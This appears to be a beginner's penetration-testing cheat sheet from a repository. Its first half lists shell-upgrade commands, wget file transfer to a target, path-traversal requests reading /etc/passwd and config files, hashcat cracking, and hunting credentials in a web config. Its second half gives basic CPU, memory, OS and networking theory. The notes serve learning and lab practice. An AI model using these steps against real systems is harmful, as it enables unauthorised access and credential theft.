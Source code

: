 # Guide404
simple guide for noobs

----------------------GENERAL-----------------
(For every domain you find:)
1. nano /etc/hosts
(Harden the web shell)

2. python3 -c 'import pty; pty.spawn("/bin/bash")'   (SHELL HARDERING)
stty raw -echo; fg
export TERM=xterm
or
script /dev/null -c bash
stty raw -echo
fg
reset

3. (move one file from your machine to the target , if you have a ssh connection)
   --> python3 -m http.server 8888 (in the directory of yhe file you want to send)
   --> wget http://<myIP>:<port>/filename   (at target's pc)

--------------------LFI---------------------
1. (throught pdf export/download) (known exploitable files: https://github.com/hussein98d/LFI-files/blob/master/list.txt):
   --> (burpsuite) GET /download?filename=../../../../../etc/passwd HTTP/1.1
   --> GET /download?filename=../../config/database.yml HTTP/1.1

-----------------------------HASHES-----------------------------
1. go at hashcat id tables and ctr+F to searc your hash and take the id
2. hashcat -m <id> hash.txt /usr/share/wordlists/rockyou.txt

-----------------------------WEBSHELL-----------------------
(after you get a web shell)
1. python3 -c 'import pty; pty.spawn("/bin/bash")'
stty raw -echo; fg
export TERM=xterm
2. cat /var/www/limesurvey/application/config/config.php (you might find password for ssh)





                                                                                             SOME THEORY

A PC has those 5 components:
1)CPU     --> a) ALU (Arithmetic Logic Unit) does calculations   b) CU (Control unit) manage data/orders   c) Registers (short term storaging)  ||||| fetch->Decode->Excecute->Repeat
2)RAM     --> Fast temporary memory --> DDR4/DDR5
3)Hard Disk (ssd/hdd) or new gen (NVMe SSD)     -->SSD (faster,reliable,no noisy)   HDD (Bigger space than ssd, noisy and if it moves it can stop working)   
4)Motherboard
5)GPU
+ input/output devices (I/O)

inputs --> (CPU) processing --> (RAM/HardDisk) storage --> output


-----------------------------------------MEMORY-----------------------------------
overall memories --> a) Registers   b) Cashe (L1, fast but small|||L2,slow but bigger|||L3, even slower but bigger too)   c)RAM   d) HardDisk
when we open a program:
CPU loads it to the RAM from the HardDisk, and CPU reads it from the RAM and stores the data at Cache or Registers
If RAM is full, PC uses some space from HardDisk, like a Virtual Memory ----> Known us Paging (slower than RAM)


---------------------------------------OS--------------------------------
What it does?
1) CPU sheduling
2) RAM-VM sheduling
3) Storage management
4) I/O devices management
5) Files management

it has 4 parts:
1)Kernel: the core/brain of it, it communicates with the hardware and loads the programs at RAM.
2)Shell: the interface for the communication with the user
3)File System: the way the pc stores and manages the files (known ones: NTFS, FAT32, EXT4)
4)Drivers (softwares)

So when i open a PC, the 'Boot loader" loads the OS at RAM, the kernel starts the "start-ups" services and then every time you open a program: the OS loads it to the RAM, CPU execute the orders and the OS handle the data and communication user-program.

-------------------------------------Networking--------------------------------------
The base of nowadays networks are the Nodes and the Links
Types of networks: 
1) LAN
2) WAN
3) WLAN (wireless)
4) VPN
   The protocoles used are:
1)IP  (manages the addresses on the network)
2)TCP (slower but reliable)
3)UDP (fast but not so reliable)

The model that is commonly used is the OSI Model:
That has 7 layers:
7)Application          (HTTP,HTTPS,QUICK) apis
6)Presentation         cryptography
5)Session              manages connections/sessions
4)Transport            TCP/UDP
3)Network              IP
2)Data Link            Machine-Machine
1)Physical             wires/signals




